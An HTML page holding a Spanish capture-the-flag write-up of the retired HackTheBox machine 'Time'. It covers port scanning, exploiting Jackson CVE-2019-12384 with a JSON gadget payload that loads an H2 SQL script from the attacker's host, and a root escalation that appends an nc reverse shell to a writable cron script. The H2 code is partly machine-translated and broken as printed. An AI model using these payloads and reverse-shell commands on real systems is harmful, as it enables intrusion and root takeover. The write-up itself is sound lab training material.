





<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Time</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Time" de HackTheBox

Caracteristicas:

- Linux
- Dificultad media 
- Jackson CVE-2019-12384 Exploitation
- SSRF to RCE Abusing Cron Job [Privilege Escalation]

Util para certificaciones eWPT OSWE OSCP

La máquina "Time" que fue retirada de HackTheBox.

    IP: 10.10.10.214

Escaneo de puertos

- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.214


Al realizar un escaneo de puertos completo con NMAP, se observan dos puertos abiertos:

    Puerto SSH
    Puerto Web

OpenSSH en el puerto 22 y Apache2 web server en el puerto 80
    
Enumeración web

Al acceder a la página web, nos encontramos con un Beautifier y Validador de JSON en línea.


La opción Beautify mejora el código JSON, pero no hay mucho que probar allí.
Al revisar la opción Validate, notamos que está en versión Beta y al ingresar código JSON, se muestra un error junto con la biblioteca utilizada en la aplicación: com.fasterxml.jackson.databind.
https://github.com/jas502n/CVE-2019-12384



Después de investigar en Google, descubrimos que esta funcionalidad es vulnerable y tiene una CVE activa (CVE-2019-12384).
https://github.com/jas502n/CVE-2019-12384

Decidimos utilizar el exploit y primero intentar obtener una shell reversa a nuestra máquina.

Creamos 

CREAR ALIAS SHELLEXEC COMO $$ String shellexec(String cmd) lanza java.io.IOException {String[] comando = {"bash", "-c", cmd};java.util.Scanner s = new java.util.Scanner (Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");return s.hasNext()?  s.siguiente() : "";  }$$;CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f') 

Debe reemplazar la dirección IP en SHELLEXEC() función en la última línea del código anterior.

2 . Lanzamos python httpserver para alojar este archivo.

3 . Lanzar netcat en el puerto 9001

4 . Ingresó el siguiente código en el campo de entrada del sitio web después de elegir la opción Validate(beta) y luego hizo clic en el boton PROCESS  

["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http:\/\/10.10.14.10:80\/ inyectar.sql'"}] 



también puede usar su forma sin formato para obtener el shell inverso

Inicie Python HttpServer

- sudo python3 -m http.server 80

Iniciar Netcat

- nc -nvlp 9001

whoami && id





una vez dentro configuramos la consola


- script /dev/null -c bash
- ctrl + z
- stty raw -echo: fg
- reset xterm
- export TERM=xterm
- uname -a

buscamos la bandera de usuario

- cat /home/pericles/user.txt



## Escalada de privilegios 

lanzamos linpeas.sh (un script de enumeración posterior a la explotación). Nos brinda información de todos los vectores potenciales
Linpeas encontré un guión timer_backup.shdentro del directorio /usr/bin/cual se puede modificar por usuarios normales. 
fue creado por el usuario con permisos de root, el cual mueve copias de seguridad a la carpeta root.



Al analizar el contenido del script, confirmamos que comprime y mueve el archivo de respaldo a la carpeta root. 
Además, verificamos los permisos del archivo del script y notamos que pertenece al usuario "pericles" y podemos editarlo.


cuando intenté ejecutar este script me dio permission denied. Una cosa está clara;
este script sólo puede ser ejecutado por un usuario root. Entonces, si el usuario root 
puede ejecutar este script, significa que todo el contenido dentro de este archivo es 
ejecutado con privilegio de root.  Entonces, si introducimos nuestra carga útil de
shell inverso dentro de este archivo, también se ejecutará con privilegios de root.
la explotacion de este archivo entra en la categoria de 
"exploitation of Unwanted File Permission"

### Obteniendo shell root

Atacante

- nc -nvlp 4321

Victima

- echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 4321 >/tmp/f' >>/usr/bin/timer_backup.sh


En resumen, el hackeo de la máquina "Time" de HackTheBox involucró los siguientes pasos:

    - Escaneo de puertos con NMAP
    - Enumeración web y descubrimiento de vulnerabilidad CVE-2019-12384
    - Explotación de la vulnerabilidad para obtener acceso como usuario "pericles"
    - Escalada de privilegios mediante la modificación de un script con permisos de root
    - Envio de shell inverso con privilegio root


Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido
a que en algunas de las máquinas que realice no tome los apuntes o no tome capturas de pantalla así que he decidido buscar varios writeups
y agregar lo que este mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía o cualquier error, 
Puedes contactarme a mi correo:

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>
 